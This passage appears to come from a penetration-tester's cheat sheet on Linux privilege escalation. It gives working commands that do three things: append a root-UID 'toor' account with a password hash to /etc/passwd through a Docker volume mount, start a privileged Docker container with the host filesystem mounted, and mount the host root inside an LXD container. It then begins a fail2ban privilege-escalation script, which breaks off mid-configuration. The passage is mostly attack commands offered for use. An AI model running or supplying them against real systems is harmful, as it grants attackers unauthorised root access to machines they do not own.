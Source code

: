 #### Docker:

```bash
docker run -it --rm -v $PWD:/mnt bash
 echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

This would create a user called 'toor' with a password of 'password'.

```bash
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

We can also docker this to spawn a root image depending on the type of image that is present on the machine.

#### LXD:

```bash

# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Check all the possible config.php files or something as well! We may find some password re-use or SQL passwords that can be abused.

For Linux, PE Vectors are easier to identify.

Including the above, we should be able to find every single vulnerability that exists on a Linux machine.

#### Fail2Ban PE:

```bash
#!/usr/bin/bash

# title : fail2ban-privesc
# author : Ravindu Wickramasinghe (@rvizx9)


echo '
+==============================+
|  fail2ban-privesc | @rvizx9  |
+==============================+

'

conf="
[INCLUDES]
before = iptables-common.conf
[Definition]

actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
```